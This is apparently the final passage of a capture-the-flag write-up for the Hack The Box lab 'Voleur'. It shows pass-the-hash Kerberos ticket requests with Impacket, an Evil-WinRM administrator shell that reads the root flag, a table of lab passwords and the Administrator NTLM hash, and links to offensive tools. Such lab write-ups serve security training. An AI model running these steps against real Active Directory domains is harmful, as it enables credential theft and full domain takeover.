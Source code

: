 ```bash
➜  voleur faketime "$(ntpdate -q voleur.htb | cut -d ' ' -f 1,2)" getTGT.py voleur.htb/Administrator -hashes :e656e07c56d831611b577b160b259ad2 
/usr/local/bin/getTGT.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20250523.184829.f2f2b367', 'getTGT.py')
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Administrator.ccache
➜  voleur export KRB5CCNAME=Administrator.ccache 
➜  voleur faketime "$(ntpdate -q voleur.htb | cut -d ' ' -f 1,2)" evil-winrm -r voleur.htb -i dc.voleur.htb                                   

                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
c8fccc10f6326f3ffc6ba6ed62b97d48

```

## Creds

| username | password / hash | work at | from | privileges |
| --- | --- | --- | --- | --- |
| ryan.naylor | HollowOct31Nyt | LDAP | Enrty |  |
| * | football1 | xlsx file | office2john | get pass |
| svc_ldap | M1XyC9pW7qT5Vn | LDAP | xlsx file | WriteSPN |
| svc_iis | N5pXyW1VqM7CZ8 | - | xlsx file | - |
| svc_winrm | AFireInsidedeOzarctica980219afi | winrm | xlsx file | user.txt |
| todd.wolfe | NightT1meP1dg3on14 | - | xlsx file | Third-Line Support member |
| jeremy.combs | qT3V9pLXyN7W4m | - | DPAPI | id_rsa |
| Administrator | e656e07c56d831611b577b160b259ad2 | everywhere | NTDS | DA |

## Tools

https://github.com/ShutdownRepo/targetedKerberoast

https://github.com/lineeralgebra/shellcoderunner
